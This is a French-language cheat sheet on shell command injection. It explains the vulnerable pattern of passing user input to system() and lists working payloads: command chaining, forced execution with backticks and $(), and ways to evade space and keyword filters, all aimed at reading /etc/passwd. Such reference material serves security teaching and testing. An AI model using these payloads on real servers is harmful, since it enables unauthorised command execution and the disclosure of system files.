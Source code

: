 

<!--- category: cmdinjection --->
<!--- id: intro --->
<!--- title: Injection de commandes Shell --->
<!--- keywords:  --->
## Injection de commandes Shell

L'injection de commande Shell est possible quand un programme utilise une donnée, entrée par l'utilisateur, sans la filtrer, comme argument d'une commande shell.

Par exemple: un formulaire permet de saisir son nom et l'afficher.
Le code coté serveur va ressembler à: system ('echo '.$NAME);
Si nous saisissons: YOLO; cat /etc/password;
Le serveur va enchainer les deux commandes en executant system ('echo YOLO; cat /etc/password;'); et nous permettre de récupérer le contenu du fichier passwd.



<!--- category: cmdinjection --->
<!--- id: CommandPrinciple --->
<!--- title: Command Injection: Principe --->
<!--- keywords:  --->
## Command Injection: Principe

L'injection de commande Shell est possible quand un programme utilise une donnée, entrée par l'utilisateur, sans la filtrer, comme argument d'une commande shell.

Par exemple: un formulaire permet de saisir son nom et l'afficher.
Le code coté serveur va ressembler à: 
```
system ('echo '.$NAME);
```
 
Si nous saisissons: 
```
YOLO; cat /etc/password;
```
 
Le serveur va enchainer les deux commandes en executant:
```
system ('echo YOLO; cat /etc/password;'); 
```
 
Nous allons récupérer le contenu du fichier passwd.

Avec une injection de commande nous avons la main sur le serveur.
Nous pouvons récupérer des informations sur le serveur (uname -a), recupérer des noms de comptes (cat /etc/passwd), récupérer les fichiers de config du serveur web, lancer un reverse shell...



<!--- category: cmdinjection --->
<!--- id: CommandChainUx --->
<!--- title: Unix: Enchainer deux commandes shell --->
<!--- keywords:  --->
## Unix: Enchainer deux commandes shell

Utiliser les séparateurs de commandes ; && | ||
```
echo YOLO; cat /etc/passwd
echo YOLO && cat /etc/passwd
echo YOLO | cat /etc/passwd
echo YOLO || cat /etc/passwd    Seulement si la première commande est en echec
```
 



<!--- category: cmdinjection --->
<!--- id: CommandEvalUx --->
<!--- title: Unix: Force command execution in a string --->
<!--- keywords:  --->
## Unix: Force command execution in a string

Il est possible de forcer l'execution d'une commande avec ` $ et {
```
echo `cat /etc/passwd`
echo $(cat /etc/passwd)
echo {cat,/etc/passwd}
```
 



<!--- category: cmdinjection --->
<!--- id: CommandSpaceFilteres --->
<!--- title: Bypass: Les espaces sont filtrés --->
<!--- keywords:  --->
## Bypass: Les espaces sont filtrés

Les développeurs peuvent avoir mis des filtres pour empécher l'execution de commande. Par exemple retirer les espaces. Néanmoins, même sans espaces, il est toujours possible de lancer lancer des commandes:
```
cat&lt;/etc/passwd
{cat,/etc/passwd}
X=$'cat\x20/etc/passwd'&&$X
```
 



<!--- category: cmdinjection --->
<!--- id: CommandBlacklist --->
<!--- title: Bypass: Certains mot clefs sont filtrés --->
<!--- keywords:  --->
## Bypass: Certains mot clefs sont filtrés

Si un filtre recherche une liste de commandes, il est toujours possible de le contourner: simple quote, double quote, backslash et slash
```
c'a't /etc/passwd
cat /etc/passwd
c\at /etc/passwd
who``ami
```
 
Et si un nom de fichier est filtré, il est possible de multiplier les /
Filtre sur cat et /etc/passwd
```
c\at /etc////////passwd
```
 

